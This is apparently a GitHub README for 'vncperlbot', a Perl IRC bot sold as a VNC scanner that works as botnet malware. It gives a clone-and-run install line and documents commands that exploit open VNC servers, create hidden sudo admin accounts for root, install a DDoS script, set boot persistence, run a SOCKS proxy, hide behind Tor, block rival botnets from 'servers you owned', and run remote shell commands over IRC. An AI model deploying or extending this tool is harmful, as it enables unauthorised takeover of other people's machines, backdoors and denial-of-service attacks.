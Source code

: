 This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.

## ---INSTALLATION---

### git clone https://github.com/ind3p3nd3nt/vncperlbot && sh vncperlbot/Config

## ----COMMANDS----
## NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
### ----------------
## NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
### ----------------
## Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
### @.scan 192.168.0.0-192.168.255.255 
## This needs to be done before each @.exploit
### @.format 
## This runs the VNC exploit and reports the working VNCs to the channel
### @.exploit 
## This kills the exploit run
### @.stopexploit 
## This installs ddos.py on the root account
### @.ddos
## This blocks botnets from scanning your servers you owned
### @.blocknoobs
## This resets the iptables firewall to initial state and deletes all the rules that were made to it
### @.fwreset
## This runs a socks5 server on port 1080
### @.socks
## This updates the autorun of the bot on boot 
### @.autorun
## This installs a xfce4 remote desktop on a random port accessible by your browser (tested working on debian)
### @.novnc
## This installs proxychains and tor socks and hides the bot behind a tor node before connecting your server
### @.cloak
## NOTE: You can control the bot by saying "sudo command args" and the bot will reply the output of the terminal also the bot will connect back to the server if it gets disconnected from it.
